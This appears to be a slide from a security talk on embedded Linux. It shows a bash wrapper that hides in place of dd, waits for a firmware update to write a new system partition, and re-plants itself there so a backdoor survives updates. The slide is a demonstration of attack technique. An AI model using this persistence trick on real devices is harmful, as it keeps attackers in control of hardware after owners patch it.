

# Make embedded Linux backdoor persistent
Example wrapper for DD
#!/bin/bash
patchmystuff(){
        mv /tmp/updatetemp/bin/dd /tmp/updatetemp/bin/ddd
        cp /bin/dd /tmp/updatetemp/bin/dd
        chmod +x /tmp/updatetemp/bin/dd
        while [ `umount /tmp/updatetemp; echo $?` -ne 0 ]; do
                        sleep 2
        done
}

/bin/ddd $@
myexit=$?

if [[ $@ == *"if=/dev/mmcblk0p10"* ]]; then
        if [[ $@ == *"of=/dev/mmcblk0p9"* ]]; then
                mount /dev/mmcblk0p9 /tmp/updatetemp &>/dev/null
                patchmystuff
        fi
fi
exit $myexit
Execute dd normally
Detect update
120